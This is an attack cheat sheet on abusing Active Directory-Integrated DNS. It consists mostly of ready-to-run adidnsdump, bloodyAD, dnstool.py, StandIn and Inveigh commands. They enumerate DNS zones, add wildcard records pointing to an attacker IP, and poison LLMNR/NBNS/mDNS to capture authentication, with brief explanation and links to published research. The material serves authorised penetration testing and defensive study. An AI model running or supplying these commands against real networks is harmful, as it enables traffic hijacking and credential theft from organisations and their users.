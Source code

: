 # Active Directory - Integrated DNS - ADIDNS

ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic. Active Directory will need some time (~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol.

* Enumerate all records

    ```ps1
    adidnsdump -u DOMAIN\\user --print-zones dc.domain.corp (--dns-tcp)
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 get dnsDump
    ```

* Query a node

    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController (--legacy)
    # or
    bloodyAD -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'DC=DomainDnsZones,DC=bloody,DC=lab' --filter '(&(name=allmightyDC)(objectClass=dnsNode))' --attr dnsRecord
    ```

* Add a node and attach a record

    ```ps1
    dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
    # or
    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 add dnsRecord dc1.example.lab <Attacker IP>

    bloodyAD --host 10.10.10.10 -d example.lab -u username -p pass123 remove dnsRecord dc1.example.lab <Attacker IP>
    ```

The common way to abuse ADIDNS is to set a wildcard record and then passively listen to the network.

```ps1
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

## DNS Reconnaissance

Perform **ADIDNS** searches

```powershell
StandIn.exe --dns --limit 20
StandIn.exe --dns --filter SQL --limit 10
StandIn.exe --dns --forest --domain <domain> --user <username> --pass <password>
StandIn.exe --dns --legacy --domain <domain> --user <username> --pass <password>
```

## References

* [Getting in the Zone: dumping Active Directory DNS using adidnsdump - Dirk-jan Mollema](https://blog.fox-it.com/2019/04/25/getting-in-the-zone-dumping-active-directory-dns-using-adidnsdump/)
* [ADIDNS Revisited – WPAD, GQBL, and More - December 5, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/adidns-revisited/)
* [Beyond LLMNR/NBNS Spoofing – Exploiting Active Directory-Integrated DNS - July 10, 2018 | Kevin Robertson](https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)
